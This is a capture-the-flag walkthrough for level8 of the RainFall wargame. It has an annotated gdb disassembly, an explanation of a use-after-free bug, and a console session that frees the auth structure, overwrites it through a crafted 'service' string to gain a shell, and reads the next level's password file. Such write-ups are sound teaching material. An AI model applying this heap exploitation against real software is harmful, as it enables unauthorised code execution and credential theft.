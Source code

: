 # level8

1. [Analysis](#analysis)
2. [Exploit](#exploit)

> Please note that due to a programming error, we can easily resolve this level without using the expected vulnerability, but we will act as if the binary worked as intended. The bug make the program to allocate the space of an address instead of a structure.

## Analysis

We have an big `main` function:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   ebp
   0x08048565 <+1>:     mov    ebp,esp
   0x08048567 <+3>:     push   edi
   0x08048568 <+4>:     push   esi
   0x08048569 <+5>:     and    esp,0xfffffff0
   0x0804856c <+8>:     sub    esp,0xa0
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    ecx,DWORD PTR ds:0x8049ab0               ; ecx = data variable 'service' address
   0x0804857b <+23>:    mov    edx,DWORD PTR ds:0x8049aac               ; edx = data variable 'auth' address
   0x08048581 <+29>:    mov    eax,0x8048810                            ; eax = text section address ("%p, %p \n")
   0x08048586 <+34>:    mov    DWORD PTR [esp+0x8],ecx                  ; load 3rd printf arg from ecx
   0x0804858a <+38>:    mov    DWORD PTR [esp+0x4],edx                  ; load 2nd printf arg from edx
   0x0804858e <+42>:    mov    DWORD PTR [esp],eax                      ; load 1st printf arg from eax
   0x08048591 <+45>:    call   0x8048410 <printf@plt>                   ; printf("%p, %p \n", auth address, service address)
   0x08048596 <+50>:    mov    eax,ds:0x8049a80                         ; eax = stdin
   0x0804859b <+55>:    mov    DWORD PTR [esp+0x8],eax                  ; load fgets 3rd arg from eax
   0x0804859f <+59>:    mov    DWORD PTR [esp+0x4],0x80                 ; load fgets 2nd arg (128)
   0x080485a7 <+67>:    lea    eax,[esp+0x20]                           ; eax = variable on stack (buffer)
   0x080485ab <+71>:    mov    DWORD PTR [esp],eax                      ; load fgets 1st arg from eax
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>                    ; fgets(buffer, 128, stdin)
   0x080485b3 <+79>:    test   eax,eax                                  ; check fgets return value
   0x080485b5 <+81>:    je     0x804872c <main+456>                     ; if zero jump to the end of the function
   0x080485bb <+87>:    lea    eax,[esp+0x20]                           ; eax = buffer
   0x080485bf <+91>:    mov    edx,eax                                  ; edx = eax
   0x080485c1 <+93>:    mov    eax,0x8048819                            ; eax = 'auth' address
   0x080485c6 <+98>:    mov    ecx,0x5                                  ; ecx = 5
   0x080485cb <+103>:   mov    esi,edx                                  ; esi = edx (buffer)
   0x080485cd <+105>:   mov    edi,eax                                  ; edi = eax ('auth')
   0x080485cf <+107>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]   ; while edi - esi = 0 && ecx > 0
   0x080485d1 <+109>:   seta   dl                                       ; set dl byte to 1 if above 
   0x080485d4 <+112>:   setb   al                                       ; set al byte to 1 if below
   0x080485d7 <+115>:   mov    ecx,edx
   0x080485d9 <+117>:   sub    cl,al
   0x080485db <+119>:   mov    eax,ecx
   0x080485dd <+121>:   movsx  eax,al                                   ;
   0x080485e0 <+124>:   test   eax,eax                                  ; check if eax == 0
   0x080485e2 <+126>:   jne    0x8048642 <main+222>                     ; jump if not
   0x080485e4 <+128>:   mov    DWORD PTR [esp],0x4                      ; load malloc arg (4)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>                   ; malloc(4)
   0x080485f0 <+140>:   mov    ds:0x8049aac,eax                         ; 'auth' = malloc return value
   0x080485f5 <+145>:   mov    eax,ds:0x8049aac                         ; eax = 'auth' allocated address
   0x080485fa <+150>:   mov    DWORD PTR [eax],0x0                      ; eax 4 bytes content = 0
   0x08048600 <+156>:   lea    eax,[esp+0x20]                           ; eax = buffer address
   0x08048604 <+160>:   add    eax,0x5                                  ; eax = buffer[5]
   0x08048607 <+163>:   mov    DWORD PTR [esp+0x1c],0xffffffff          ; 
   0x0804860f <+171>:   mov    edx,eax
   0x08048611 <+173>:   mov    eax,0x0
   0x08048616 <+178>:   mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>:   mov    edi,edx
   0x0804861c <+184>:   repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>:   mov    eax,ecx
   0x08048620 <+188>:   not    eax
   0x08048622 <+190>:   sub    eax,0x1
   0x08048625 <+193>:   cmp    eax,0x1e
   0x08048628 <+196>:   ja     0x8048642 <main+222>
   0x0804862a <+198>:   lea    eax,[esp+0x20]
   0x0804862e <+202>:   lea    edx,[eax+0x5]
   0x08048631 <+205>:   mov    eax,ds:0x8049aac
   0x08048636 <+210>:   mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>:   mov    DWORD PTR [esp],eax
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    eax,[esp+0x20]
   0x08048646 <+226>:   mov    edx,eax
   0x08048648 <+228>:   mov    eax,0x804881f
   0x0804864d <+233>:   mov    ecx,0x5
   0x08048652 <+238>:   mov    esi,edx
   0x08048654 <+240>:   mov    edi,eax
   0x08048656 <+242>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:   seta   dl
   0x0804865b <+247>:   setb   al
   0x0804865e <+250>:   mov    ecx,edx
   0x08048660 <+252>:   sub    cl,al
   0x08048662 <+254>:   mov    eax,ecx
   0x08048664 <+256>:   movsx  eax,al
   0x08048667 <+259>:   test   eax,eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    eax,ds:0x8049aac
   0x08048670 <+268>:   mov    DWORD PTR [esp],eax
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    eax,[esp+0x20]
   0x0804867c <+280>:   mov    edx,eax
   0x0804867e <+282>:   mov    eax,0x8048825
   0x08048683 <+287>:   mov    ecx,0x6
   0x08048688 <+292>:   mov    esi,edx
   0x0804868a <+294>:   mov    edi,eax
   0x0804868c <+296>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:   seta   dl
   0x08048691 <+301>:   setb   al
   0x08048694 <+304>:   mov    ecx,edx
   0x08048696 <+306>:   sub    cl,al
   0x08048698 <+308>:   mov    eax,ecx
   0x0804869a <+310>:   movsx  eax,al
   0x0804869d <+313>:   test   eax,eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    eax,[esp+0x20]
   0x080486a5 <+321>:   add    eax,0x7
   0x080486a8 <+324>:   mov    DWORD PTR [esp],eax
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    ds:0x8049ab0,eax
   0x080486b5 <+337>:   lea    eax,[esp+0x20]
   0x080486b9 <+341>:   mov    edx,eax
   0x080486bb <+343>:   mov    eax,0x804882d
   0x080486c0 <+348>:   mov    ecx,0x5
   0x080486c5 <+353>:   mov    esi,edx
   0x080486c7 <+355>:   mov    edi,eax
   0x080486c9 <+357>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:   seta   dl
   0x080486ce <+362>:   setb   al
   0x080486d1 <+365>:   mov    ecx,edx
   0x080486d3 <+367>:   sub    cl,al
   0x080486d5 <+369>:   mov    eax,ecx
   0x080486d7 <+371>:   movsx  eax,al
   0x080486da <+374>:   test   eax,eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    eax,ds:0x8049aac
   0x080486e7 <+387>:   mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:   test   eax,eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    eax,ds:0x8049aa0
   0x08048704 <+416>:   mov    edx,eax
   0x08048706 <+418>:   mov    eax,0x804883b
   0x0804870b <+423>:   mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>:   mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>:   mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>:   mov    DWORD PTR [esp],eax
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    eax,0x0
   0x08048732 <+462>:   lea    esp,[ebp-0x8]
   0x08048735 <+465>:   pop    esi
   0x08048736 <+466>:   pop    edi
   0x08048737 <+467>:   pop    ebp
   0x08048738 <+468>:   ret
End of assembler dump.
```

After analysing how this executable works and rewriting the source code, we understand that we need to set the variable 'auth' of the structure 'auth' to a value other than 0 in order to execute the `system` call.

The whole code of `main` is wrapped inside an infinite loop (such as `while (1)`), which prints two variable adresses, wait for a user input, then performs differents actions if the input begins by one theses commands : `auth `, `reset`, `service` or `login`. The input is read from stdin with `fgets`, avoiding a buffer overflow here.

We notice two memory allocations, a `malloc` call for the 'auth' structure and a `strdup` of the 'service' variable. In the first one, `strcpy` is used to fill in the array of char of the 'auth' structure, but a `strlen` check prevents us again from exploiting a buffer overflow.

Taking a closer look to the allocated pointers, we see that the `reset` command will free the structure 'auth', but dont set its pointer to 'NULL', keeping this address readable without any segfault . Indeed, we know that `free` will just set the memory block as 'free for use', according to the `malloc` implementation. After some researches , we find the kind of exploit we can use here, a 'use-after-free'.

## Exploit

The main goal of this exploit is to write on the memory space of the structure 'auth' to change the value of its variable 'auth' which is checked to allow the execution of `system`. Let's run the program and begin by allocating space to the 'auth' structure.

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth hackerman     # ^_^
0x804a008, (nil)
```

The structure 'auth' is now allocated at the address `0x804a008`. We will try to free it with `reset`, then write on the same space using the `service` command that will call `strdup` to allocate space on the heap and copy the string we provide to it. We expect `malloc` to return the same address as previously (`0x804a008`) because we will `free` the block before.

In order to overwrite the value of 'auth->auth', we need to send a string which is at least 33 bytes long : the 32 first bytes will overwrite the array of characters 'auth->name' and the 33rd the 'auth->auth' variable. Please note that the characters we send don't matter, all we need is a final value different from 0x00000000 at the address `0x804a008 + 32`.

Last detail, we should not send more than 36 characters, otherwise the targeted memory block won't be large enough and `malloc` will allocate us some space from a different heap address. Why 36 ? Because this is the size of the 'auth' structure previously allocated. Now let's do this !

```console
reset
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a008    # the real output is different due to the bug mentioned at the top of this document
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```